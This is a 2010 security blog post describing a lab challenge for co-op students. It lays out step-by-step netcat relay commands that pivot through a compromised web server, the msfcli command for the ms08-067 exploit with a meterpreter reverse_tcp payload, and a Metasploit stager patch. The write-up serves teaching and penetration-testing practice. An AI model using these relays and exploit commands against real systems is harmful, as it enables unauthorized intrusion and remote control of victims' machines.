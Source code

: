 ```yaml
---
id: 793
title: 'Five Relays and a Patch'
date: '2010-05-26T08:57:34-05:00'
author: 'Ron Bowes'
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=793'
permalink: /2010/five-relays-and-a-patch
categories:
    - Hacking
    - Tools
---
```


Hey all,

We hired a new pair of <a href="http://coop.cs.umanitoba.ca">co-op students</a> recently. They're both in their last academic terms, and are looking for a good challenge and to learn a lot. So, for a challenge, I set up a scenario that forced them to use a series of netcat relays to compromise a target host and bring a meterpreter session back. Here is what the network looked like:
<img style="border-top-width: 0px; border-right-width: 0px; border-bottom-width: 0px; border-left-width: 0px; border-style: initial; border-color: initial; display: block; margin-left: auto; margin-right: auto; " title="Firewall Rules" src="http://www.skullsecurity.org/blogdata/fiverelays-1.png" alt="" width="236" height="494" />
To describe in text:
<ul>
	<li>They have already compromised a Web server with a non-root account</li>
	<li>The Web server has no egress filtering, but full ingress filtering, and they aren’t allowed to install anything (fortunately, it already had Netcat)</li>
	<li>The target server has both egress and ingress filtering, and is not accessible at all from the Internet, but the Web server can connect to it on 139/445 (which are vulnerable to ms08-067). The target can also connect back to the Web server on any port.</li>
</ul>
The challenge was to exploit the target server with ms08-067 and bring a meterpreter session back to the attacker server.
<!--more-->
I had expected this would require 3-4 netcat relays, but, after helping them to get this working, we ended up with 5 relays for a variety of reasons, plus a minor patch to Metasploit! Maybe we did it the hard way, and maybe we didn’t need all those relays, but it was fun to set up and satisfying to get working.

Anyway, I’ll let them explain what they did!
<h2>Five relays and a patch</h2>
The image below shows the various netcat relays we ended up using, in order of execution.

<img style="border-top-width: 0px; border-right-width: 0px; border-bottom-width: 0px; border-left-width: 0px; border-style: initial; border-color: initial; display: block; margin-left: auto; margin-right: auto; " title="Relays" src="/blogdata/fiverelays-2.png" alt="" width="405" height="560" />

The first goal was to find a way to bypass the firewalls.  Metasploit was using default ports 445 for outgoing and 4444 for incoming connections, and since we can't connect to either of those ports on the Web Server (WEB), we needed the WEB to establish a connection back to us.  Fortunately WEB can connect to TARGET on port 445, and can receive a connection back on any port. Thus 2 netcats are running on the WEB are:
<pre> nc HACKER 1234 -vv &lt; pipe4 |  nc TARGET 445 -vv &gt; pipe4</pre>
This command forwards the traffic coming in on port 1234 from the HACKER to TARGET port 445 (Relay #4).
<pre> nc -l -p 4444 -vv &lt; pipe2 | nc HACKER 4442 -vv &gt; pipe2</pre>
This command listens for the meterpreter session back from TARGET on port 4444 and relays it to HACKER on port 4442 (Relay #2).

Why does WEB connect on arbitrary port 1234 instead of connecting to Metasploit's port 445? Well, Metasploit doesn't listen on that port, it needs to initiate the connection. So we need a netcat relay running on HACKER to listen for connection from Metasploit and connect it with the incoming connection from the WEB (Relay #3):
<pre>nc -l -p 1234 -vv &lt; pipe3 | nc -l -p 445 &gt; pipe3</pre>
As you might have noticed the WEB is  connecting back on port 4442, not 4444 on which Metasploit is listening (Relay #2). They cannot be connected directly, as WEB will establish connection immediately when it starts and Metasploit will get confused since its waiting on Meterpreter session and fail. So we need a relay listening on port 4442 on the HACKER and connecting it back to Metasploit, right? Well, not that simple.
<pre> nc -l -p 4443 -vv &lt; pipe1 | nc -l -p 4442 -vv &gt; pipe1</pre>
This command will listen for incoming connection from WEB on port 4442 and relay it to port 4443 when that connection is established (Relay #1). This gives Metasploit time to trigger an exploit and we only establish a final connection to Metasploit  once it did by running a final command:
<pre>nc HACKER 4444 -vv &lt; pipe5 | nc HACKER 4443 -vv &gt; pipe</pre>
This simply establishes a connection to the relay running on the same computer on port 4443 and sends it to Metasploit on port 4444 (Relay #6).

The biggest challenge was getting the timing of the last command right. We needed to activate it after Metasploit starts listening for the reverse_tcp stager but before it sends stage data. If stage data was sent before the entire link was created,the vulnerability would be exploited, but the stage would fail. In order to get the timing right for the final command, a modification to the <em>stager.rb</em> in the <em>lib/msf/core/payload/</em> folder was necessary. We added a three-second delay after the vulnerability has been triggered and before the stage data was sent in order to give us time to link the netcat relays together for the connection back.

This is the patch against the Metaploit version on the Backtrack 4 cd (it'll likely fail against the HEAD revision due to a number of changes):
<pre>Index: stager.rb
===================================================================
--- stager.rb   (revision 8091)
+++ stager.rb   (working copy)
@@ -100,6 +100,9 @@
                                p = (self.stage_prefix || '') + p
                        end

+            print_status("Delaying for three seconds (Start your nc relay).")
+            Kernel.sleep(3)
+
                        print_status("Sending stage (#{p.length} bytes)")

                        # Send the stage
@@ -164,4 +167,5 @@
        #
        attr_accessor :stage_prefix</pre>
Now that everything should be (theoretically) working, we had to make sure to start netcat relays in the right order to make sure they can establish connections, and we had to wait before executing #6 until #2 received a connection established message. The -vv command is optional for all nc instances except in #2, where they are used to determine when to execute #6. We first start all the listener relays and then start the relays that establish connections. The commands were executed in the order provided
<ol>
	<li>This command is run on the HACKER:</li>
<pre>nc -l -p 4443 -vv &lt; pipe1 | nc -l -p 4442 -vv &gt; pipe1</pre>
	<li>This command was run on the WEB:</li>
<pre>nc -l -p 4444 -vv &lt; pipe2 | nc HACKER 4442 -vv &gt; pipe2</pre>
	<li>HACKER:</li>
<pre>nc -l -p 1234 -vv &lt; pipe3 | nc -l -p 445 &gt; pipe3</pre>
	<li>WEB:</li>
<pre>nc HACKER 1234 -vv &lt; pipe4 | nc TARGET 445 -vv &gt; pipe4</pre>
	<li>Now that we have a connection to the target we run an exploit:</li>
<pre>./msfcli exploit/windows/smb/ms08_067_netapi 
 PAYLOAD=windows/meterpreter/reverse_tcp RHOST=HACKER LHOST=WEB E</pre>
	<li>Last command is run on HACKER when Relay #2 displays a detected connection:</li>
<pre>nc HACKER 4444 -vv &lt; pipe5 | nc HACKER 4443 -vv &gt; pipe</pre>
</ol>